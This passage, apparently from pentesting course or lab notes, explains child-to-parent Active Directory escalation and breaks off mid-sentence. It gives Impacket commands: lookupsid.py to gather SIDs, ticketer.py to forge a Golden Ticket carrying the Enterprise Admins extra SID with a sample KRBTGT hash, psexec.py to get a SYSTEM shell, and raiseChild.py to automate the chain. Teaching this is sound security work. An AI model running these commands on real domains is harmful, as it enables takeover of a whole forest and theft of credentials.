 To do so, we'll still need to gather the same bits of information:
- The KRBTGT hash for the child domain
- The SID for the child domain
- The name of a target user in the child domain (does not need to exist!)
- The FQDN of the child domain
- The SID of the Enterprise Admins group of the root domain

Once we have complete control of the child domain, `<subdomain>`, we can use secretsdump.py to DCSync and grab the NTLM hash for the KRBTGT account.

````bash
# Looking for the Domain SID
$ lookupsid.py <subdomain>/<user>@<dc_subdomain_ip> | grep "Domain SID"

# Grabbing the Domain SID & Attaching to Enterprise Admin's RID
$ lookupsid.py <subdomain>/<user>@<dc_subdomain_ip> | grep -B12 "Enterprise Admins"
````
We have gathered the following data points to construct the command for our attack. Once again, we will use the non-existent user hacker to forge our Golden Ticket.
- The KRBTGT hash for the child domain: 9d765b482771505cbe97411065964d5f
- The SID for the child domain: S-1-5-21-2806153819-209893948-922872689
- The name of a target user in the child domain (does not need to exist!): hacker
- The FQDN of the child domain: `<subdomain>`
- The SID of the Enterprise Admins group of the root domain: S-1-5-21-3842939050-3880317879-2865463114-519

````bash
# Constructing a Golden Ticket using ticketer.py
$ ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain <subdomain> -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker

# Setting the KRB5CCNAME Environment Variable
$ export KRB5CCNAME=hacker.ccache

# Getting a SYSTEM shell using Impacket's psexec.py
$ psexec.py <subdomain>/hacker@<main_domain_host_dc> -k -no-pass -target-ip <IP_DC_Main>
````

Impacket also has the tool **raiseChild.py**, which will automate escalating from child to parent domain. We need to specify the target domain controller and credentials for an administrative user in the child domain; the script will do the rest. If we walk through the output, we see that it starts by listing out the child and parent domain's fully qualified domain names (FQDN). It then:
- Obtains the SID for the Enterprise Admins group of the parent domain
- Retrieves the hash for the KRBTGT account in the child domain
- Creates a Golden Ticket
- Logs into the parent domain
- Retrieves credentials for the Administrator account in the parent domain

**Performing the Attack with raiseChild.py**
````bash
$ raiseChild.py -target-exec <IP_DC_Main> <subdomain>/<user>
````

 The workflow is as follows:
 